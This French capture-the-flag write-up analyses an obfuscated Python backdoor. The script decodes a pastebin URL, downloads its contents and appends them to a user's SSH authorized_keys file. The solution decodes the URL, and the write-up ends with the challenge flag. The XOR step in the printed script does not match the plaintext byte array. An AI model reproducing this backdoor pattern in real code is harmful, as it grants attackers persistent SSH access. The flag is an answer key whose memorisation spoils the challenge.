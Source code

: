 
![bibliotheque_5](bibliotheque_5.png)

![backdoor](../../../../attachements/backdoor.py)

## Résolution

On a un script qui à été volontairement compliqué pour rien. 

```python
import requests as __import_0__  
import base64 as __import_1__  
  
def __function_0__():  
    __variable_0__ = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119, 47, 53, 97, 72, 106, 49, 57, 107, 101])  
    __variable_1__ = 10  
    for __variable_2__ in range(len(__variable_0__)):  
        __variable_0__[__variable_2__] ^= __variable_1__  
    __variable_3__ = __variable_0__.decode('ascii')  
    __variable_4__ = __import_0__.get(__variable_3__)  
    __variable_4__.raise_for_status()  
    __variable_5__ = __variable_4__.text  
    __variable_6__ = "/home/tchia/.ssh/authorized_keys"  
    with open(__variable_6__, "a") as __variable_7__:  
        __variable_7__.write(__variable_5__ + "\n")  
  
if __name__ == "__main__":  
    __function_0__()
```

Ce qu’on comprend : 
* il y a un tableau de bytes avec des données
* le script fait du xor sur ces données
* il fait une requête sur le résultat décodé des bytes 
* met ce résultat dans un fichier sur le système

On va donc reconstruire ces données et fait l’appel à l’url en question : 

```python
import requests as requests

# tableau de bytes
data = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 99, 111, 109, 47, 114, 97, 119,  47, 53, 97, 72, 106, 49, 57, 107, 101])
# on converti en ascii
ascii = data.decode('ascii')  
# on fait une requête sur l'url trouvé et on affiche le résultat
print(requests.get(ascii).text)  
```


>[!question]- Spoiler du flag
> OPENNC{Br4v0_Vous_4vez_Termin3}

